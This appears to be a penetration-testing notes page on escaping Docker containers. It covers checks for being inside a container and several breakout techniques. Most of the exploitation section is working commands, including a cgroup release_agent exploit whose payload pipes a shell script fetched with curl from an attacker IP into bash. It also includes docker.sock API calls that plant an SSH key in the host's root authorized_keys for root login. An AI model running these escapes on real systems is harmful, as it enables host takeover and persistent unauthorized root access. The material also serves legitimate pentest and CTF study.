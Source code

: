 # 🐋 docker container escape

## Theory

Docker is an open-source containerization platform used for developing, deploying, and managing applications in lightweight virtualized environments called containers.

<figure><img src="https://user-images.githubusercontent.com/106917304/173188805-30523d98-d755-4b94-8740-7a929aa28d6b.png" alt=""><figcaption><p>Docker Architecture</p></figcaption></figure>

***

## Practical (Exploitation)

### Checking if we're in Container

1. **List running processes**

```
ps aux
```

{% hint style="info" %}
If there are few no. of process is running then you might be in docker.
{% endhint %}

2. **Look for docker.env file**

```
cd / && ls -lah
```

{% hint style="info" %}
If you see .dockerenv in base dir, then you’re in a container.
{% endhint %}

3. **Those pesky cgroups**

Navigating to “/proc/1” and then catting the “cgroups” file (cat cgroup).



**Use following code to Verify you are in Docker**

```
if [ -f /.dockerenv ]; then
 echo "I'm inside matrix ;(";
else
 echo "I'm living in real world!";
fi
```



### Docker Escaping Techniques

#### 1. Escape via Exposed Docker Daemon

Run the following cmd

If we’re in bash

```
docker run -v /:/mnt --rm -it bash chroot /mnt sh
```

If we’re in alpine

```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```

You can see the images repo

```
docker images
docker run -it -v /:/host/ ubuntu:18.04 chroot /host/ bash
```

{% hint style="info" %}
NOTE: ubuntu:18.04 is the image repo
{% endhint %}



#### 2. Shared Namespaces

By using ps aux you can view the process with processID see pid 1 is running root it is the first one that executed when the system is booted.

Exploiting it with nsenter

```
nsenter --target 1 --mount sh
```



#### 3. Escape By Mounting File System

```
lsblk
mount /dev/sda2 /mnt
cd /mnt/root
```

{% hint style="info" %}
NOTE: In this case sda2 is the dir we mount. Might be different in your case
{% endhint %}



#### 4. Misconfigured Privileges

**list out all the capabilities**

```
capsh --print
capsh --print | grep sys_admin
```

{% hint style="info" %}
If we get sys\_admin capability, means the system is vuln.
{% endhint %}

**On attacker VM:**

First make a shell.sh and set python server and set listner.

**On target machine:**

```
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
mkdir -p $d/w;echo 1 >$d/w/notify_on_release
t=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo $t/c >$d/release_agent;printf '#!/bin/sh\ncurl 10.10.x.x:80/shell.sh | bash' >/c;
chmod +x /c;sh -c "echo 0 >$d/w/cgroup.procs";
```



#### 5. Exploitation of docker.sock in /var/run or /run if you're ROOT

Check /var/run dir for docker.sock file, if it’s there and you’re root then you can exploit it. First see that you can use curl cmd, if not then wget static curl from your system for static curl see the arch of target machine and get the static curl from [Resource](https://github.com/moparisthebest/static-curl)

**STEP1:** Listing the images of the container of the host

```
./curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

**STEP2:** Now generate id\_rsa in your machine

```
ssh-keygen -t rsa
cat key.pub
```

**STEP3:** Creating a new docker container with image ID

```
./curl -X POST -H "Content-Type: application/json" --unix-socket /var/run/docker.sock http://localhost/containers/create -d '{"Detach":true,"AttachStdin":false,"AttachStdout":true,"AttachStderr":true,"Tty":false,"Image":"c3:latest","HostConfig":{"Binds": ["/:/var/tmp"]},"Cmd":["sh", "-c", "echo ssh-rsa AAAA..............xfoS+Yb2cW4y9cKcBWpVIiNMEtMX7sIB/0cKl8W/mY4u1UeRzWOoIIew6hqlaWCW6WKeSiCrNzEEj.........................P0/BMcKBS2pzqct2rTQ/LfFFM= root@kali >> /var/tmp/root/.ssh/authorized_keys"]}'
```

{% hint style="info" %}
NOTE: replace “c3:latest” with the docker image name that you’ll get from step1. eg: “RepoTags”:\[“c3:latest”]
{% endhint %}

Now you’ll see you created a docker and get the id. eg: {“Id”:”c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2”,”Warnings”:\[]}

**STEP4:** Now we gonna use the id and start the docker

```
./curl -X POST -H "Content-Type:application/json" --unix-socket /var/run/docker.sock http://localhost/containers/c19a25c6cc7245030bf9741d300f632cc7f1e5f12adad238edce23d387ba00c2/start
```

**STEP5:** Login SSH via your private key as user root and now you’re root

```
ssh -i key root@10.10.x.x
```



#### 6.  Debugfs

```
### debugfs (Interactive File System Debugger)
debugfs /dev/sda1
```



***

## REFERENCES

* [https://k4sth4.github.io/Docker-Escape/](https://k4sth4.github.io/Docker-Escape/)
* [https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-security/docker-breakout-privilege-escalation)
* [https://youtu.be/\_dhONyAk4es](https://youtu.be/\_dhONyAk4es)
* [https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker](https://book.hacktricks.xyz/network-services-pentesting/2375-pentesting-docker)
* [https://blog.ropnop.com/docker-for-pentesters/](https://blog.ropnop.com/docker-for-pentesters/)
* [https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting](https://l3m0n.gitbook.io/pen-testing-book/container-pentesting/docker-pentesting)
